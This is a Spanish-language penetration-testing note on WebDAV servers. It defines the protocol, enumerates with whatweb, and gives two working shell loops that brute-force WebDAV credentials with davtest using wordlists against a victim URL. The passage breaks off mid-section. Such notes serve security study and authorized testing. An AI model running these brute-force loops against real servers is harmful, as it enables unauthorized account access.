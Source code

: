 #WebDAV #OWASP #Enumeracion #Explotacion 

#### Definición
>**WebDAV** (**Web Distributed Authoring and Versioning**) es una extensión del protocolo HTTP que permite a los usuarios **acceder** y **manipular** **archivos** en un servidor web a través de una conexión segura.

## Enumeración
Usaremos [[WHATWEB]] para identificar que tipo de tecnologías usa la pagina web es y así poder ver si es un WebDAV:
`whatweb <URL_Victima>`

Podemos usar una herramienta llamada [[DAVTEST]] nos enumera todos los tipos de archivos que se pueden subir a la web y cuales son ejecutables/interpretables, pero para ellos debemos de saber las credenciales
Si sabemos el nombre del usuario:
```shell
cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url <URL_Victima> -auth admin:$password 2>&1 | grep -i succeed); if [ $response ]; then echo "[+] La contraseña es: $password"; break; fi; done
```

SI sabemos la contraseña: 
```shell
cat /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt  | while read username; do response=$(davtest -url <URL_Victima> -auth $username:Password123 2>&1 | grep -i succeed); if [ $response ]; then echo "[+] El usuario es: $username"; break; fi; done
```

Si no sabemos ninguno de los dos:
